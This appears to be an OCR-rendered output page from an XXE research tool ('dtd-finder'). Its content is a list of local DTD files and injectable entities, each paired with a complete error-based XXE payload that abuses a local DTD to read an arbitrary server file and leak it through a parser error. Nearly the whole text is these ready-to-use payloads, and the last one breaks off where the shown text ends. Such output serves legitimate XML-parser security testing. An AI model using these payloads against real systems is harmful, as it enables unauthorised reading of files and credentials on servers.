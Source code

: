 **Injectable entity:** `string`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % string '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `systemOrPublic`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % systemOrPublic '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `nsdecl`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % nsdecl '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

```